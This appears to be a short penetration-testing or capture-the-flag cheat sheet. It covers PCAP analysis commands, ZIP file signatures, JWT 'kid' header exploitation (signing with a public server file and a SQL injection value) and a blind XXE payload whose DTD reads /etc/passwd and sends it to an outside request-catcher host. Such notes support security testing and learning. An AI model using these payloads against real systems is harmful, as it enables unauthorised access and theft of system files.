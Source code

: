 ```bash
tshark -r *PCAP* -Y 'tls.handshake.extensions_server_name' -T fields -e tls.handshake.extensions_server_name | sort -u > hosts.txt
```

### Useful PCAP Reader

```bash
chaosreader
```

### ZIP Format File Signatures

_HEADER_

```text
50 4B 03 04 14
```

_FOOTER_

```text
50 4B 05 06 00
```

### JWT KID Value Exploitation

_Sign with public file from server_

```text
kid: public/css/file.css

wget file.css from target

manipulate token using jwt_tool and sign it with file.css
```

_SQL Injection_

```text
kid: test' UNION SELECT 'key';--

manipulate token using jwt_tool and sign it using the secret -> 'key'
```

### Blind XXE to SSRF

_ON TARGET_

```markup
<?xml version="1.0"?>
<!DOCTYPE foo SYSTEM "*HOST ADDRESS OF DTD FILE (preferably on github)*">
<foo>&e1;</foo>
`
```

_INSIDE DTD FILE_

```markup
<!ENTITY % p1 SYSTEM "file:///etc/passwd">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM '*RANDOM HTTP HOST (like https://requestbin.com/)*/%p1;'>">
%p2;
```

